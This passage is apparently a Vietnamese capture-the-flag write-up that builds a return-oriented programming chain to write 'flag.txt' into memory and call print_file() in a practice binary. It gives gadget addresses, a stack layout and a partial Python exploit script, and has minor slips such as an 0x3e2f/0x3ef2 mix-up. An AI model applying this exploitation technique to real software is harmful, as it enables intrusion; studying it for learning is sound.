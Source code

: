 ```text-plain
0x0000000000400628: xlatb; ret;
0x00000000004006a3: pop rdi; ret;
0x0000000000400295: ret;
```

Ở đây ta thiếu các gadget như challenge 4 để truyền string “flag.txt” vào .data section.

Ta dùng gadget `stosb byte ptr [rdi], al; ret;` để truyền giá trị thanh ghi `al` vào `[rdi]` với rdi là địa chỉ section .data được control bằng gadget  `pop rdi; ret;`. Lưu ý rdi sẽ tự add 0x1 vào mỗi lần thực thi gadget này

Để control thanh ghi `al` ta sử dụng gadget `xlatb; ret;` xlatb sẽ tương đương gán `al = rbx + al`. Do đó khi control được `rbx` ta sẽ  điều chỉnh được thanh ghi `al` [https://www.felixcloutier.com/x86/xlat:xlatb](https://www.felixcloutier.com/x86/xlat:xlatb)

Để control rbx ta sẽ dùng gadget `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;`, với instruction `bextr rbx, rcx, rdx; ret;` sẽ trích xuất các bit liên tục từ start `rcx` với length `rdx` (rcx lấy bit từ 0:7, rdx lấy bit từ 8:15)

Ta xây dựng stack như sau

```text-plain
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x4006a3] -> pop rdi; ret;
[0x601028] -> -rw- .data -> control rdi cho gadget stosb
---> Control al, lấy từng ký tự 'flag.txt'
[0x40062a] -> pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;
[0x4000] -> rdx -> length bit [8:15] = 0x40 (8 bits = 1 byte)
[base + index - 0x3ef2 - current_al] -> base + index là vị trí của từng ký tự 'flag.txt' trong binary, ta phải cộng thêm giá trị hiện tại của al vì xlatb sẽ là al := rbx + al và trừ đi 0x3e2f do instruction 'add rcx, 0x3ef2' khi đó al := giá trị tại vị trí của 'flag.txt'
[0x400628] -> xlatb; ret;
[0x400639] -> stosb byte ptr [rdi], al; ret; 
----> Sau khi lấy hết ký tự 'flag.txt' vào rdi, ta truyền vào hàm print_file()
[0x4006a3] -> pop rdi; ret;
[0x400295] -> ret;
[0x400510] -> print_file();
```

Exploit code

```text-x-python
from struct import pack
import sys

base = 0x400000
length = 0x4000 #length bits, bit from  15:8 is 0x40 -> 64 bit, 8 byte
xlatb = 0x0000000000400628 # xlatb; ret;
bextr = 0x000000000040062a # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret; 
stosb = 0x0000000000400639 # stosb byte ptr [rdi], al; ret;
pop_rdi = 0x00000000004006a3 # pop rdi; ret;
data_section_addrs = 0x00601028
print_file_addrs = 0x00400510 # 4   0x00400510 GLOBAL FUNC       print_file
ret = 0x0000000000400295 # ret;
current_rax = 0xb

def p(x):
    return pack("<Q", x)

def find_index(filename='flag.txt'):
    indexes = []
    with open('fluff', 'rb') as f:
        buff = f.read()
        for c in filename:
            indexes.append(buff.index(bytes(c,'ascii')))
```